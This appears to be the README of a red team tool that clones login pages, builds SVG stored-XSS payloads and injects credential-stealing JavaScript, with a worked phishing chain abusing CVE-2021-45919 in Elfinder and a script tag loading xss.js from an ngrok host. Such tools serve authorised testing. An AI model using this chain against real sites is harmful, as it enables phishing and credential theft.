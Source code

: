 # Jorōgumo [ 絡新婦 ]
A red team tool written in python for building SVG stored xss payloads, cloning webpages, or implementing custom javascript in pre-existing or cloned webpages.

Author: johnjhacking

ASCII: w0rmer

## Features
![da12503cb7e54226a8e9f8164a6c0694](https://user-images.githubusercontent.com/39013067/228970400-306a5a8f-bcb8-45e1-9227-943e643136db.png)
### Clone a webpage: 

Creates a local copy of the target webpage, which can be used for further customization or attack purposes.
### Create a standalone SVG payload: 

Generates a payload in SVG format, embedding a specified image URL and redirecting users to a specified URL upon interaction.
### Stored Cross-Site Scripting SVG Credential Stealer: 

Clones a login page and injects a script that captures user credentials, and then generates an SVG to be chained with a stored cross-site scripting vulnerability. When the stored cross-site scripting svg payload is triggered, it renders a 404 picture by default, or the custom picture entered by the user, and when clicked, redirects the user to the attacker's malicious login page, where the credential stealer will post credentials to a web request catcher or listener.
### Build a webpage with existing JavaScript and HTML: 

Takes an existing HTML file and adds specified JavaScript code, either from a local file or a remote URL.
### Build a webpage with existing JavaScript but no HTML: 

Clones a webpage and adds specified JavaScript code, either from a local file or a remote URL, into the cloned webpage.
### Custom JavaScript Stored Cross-Site Scripting SVG Payload: 

Clones a webpage and adds specified JavaScript code, either from a local file or a remote URL, into the cloned webpage. Generates an SVG to be chained with a stored cross-site scripting vulnerability. When the stored cross-site scripting svg payload is triggered, it renders a 404 picture by default, or the custom picture entered by the user, and when clicked, redirects the user to the attacker's malicious page, where the custom javascript code will be executed.

## Usage
`git clone https://github.com/SpiderLabs/Jorogumo`

Install the required packages: 

`pip install -r requirements.txt`

Follow the prompt and enter the requested input. Simple javascript code snippets are included in xss.js and cred-stealer.js in the payloads folder, which could be useful if you want to merge them into any of your existing html files for PoC purposes.

## Limitations
- The current version of this script is not built to handle capturing credentials that require 2FA.
- Login forms that don't give you the ability to provide the `username` and `password` input prior to clicking any buttons are not supported. In otherwords, multi-action login forms are not supported in this iteration.
- Some pages or login forms do not clone well, you'll have to keep this in mind when testing your pages to ensure that it looks okay. You could always remove uneccesary third-party elements.
- Ensure that you're hosting on a domain with HTTPS enabled or you're probably going to have issues using the payloads.
- Cross-Origin Read Blocking (CORB) is a thing, so you'll have better luck either implementing your javascript directly in the HTML or ensuring that the .js payload you want to use is hosted on your phishing domain and referenced as such. There's header and content workarounds, but i'd recommend the easy way from the jump.

## Example of Stored Cross-Site Scripting SVG Credential Stealer
**Note, I used the admin panel for the PoC since that's what I have the credentials for, in reality you'd want to clone the main-site login page instead**
### Abusing [CVE-2021-45919](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/from-stored-xss-to-rce-using-beef-and-elfinder-cve-2021-45919/) [ Stored XSS in Elfinder through 2.1.31 ]

#### Malicious SVG is Generated and uploaded to the Subrion admin panel using Elfinder
![b20f44768b554b37b820f7c0941c4c2c](https://user-images.githubusercontent.com/39013067/228977314-a4760a7f-fa0c-42d2-978b-f4ace0af0420.png)

#### Direct Link Hosted on Trusted Domain & Sent to User w/custom 404 page
![a99b0cc85bce434e92ed3c1696bb8821](https://user-images.githubusercontent.com/39013067/228978059-e5c040dd-0821-47f6-b789-961df5a95f8e.png)

#### Victim Clicks - Redirected to Cloned Admin Login
![5895c779f65a40b8bac462569a5ebee9](https://user-images.githubusercontent.com/39013067/228976353-9b525831-5aa6-4e73-ba20-e4374b6b7196.png)

#### Authentication Event Sends Credentials
![6e0d4e0ffd7d40b599c81b64f5b9031f](https://user-images.githubusercontent.com/39013067/228978339-01cbe7da-46d2-4d4b-b065-a45d987e96f4.png)

## Custom JS included in HTML
![583d547a9c1c42e8b1d633ba7be7804d](https://user-images.githubusercontent.com/39013067/228978613-7b86739a-5512-4d6d-a047-c513ecec5132.png)

#### Snippet of Code for Basic XSS included, and Externally Referenced .js
```
<script>
alert('Hacked');
</script>
```
```
<script src="https://32bb-73-181-111-237.ngrok.io/xss.js">
</script>
```
As you can see, the tool uses regular script tags for local .js and script src for external.
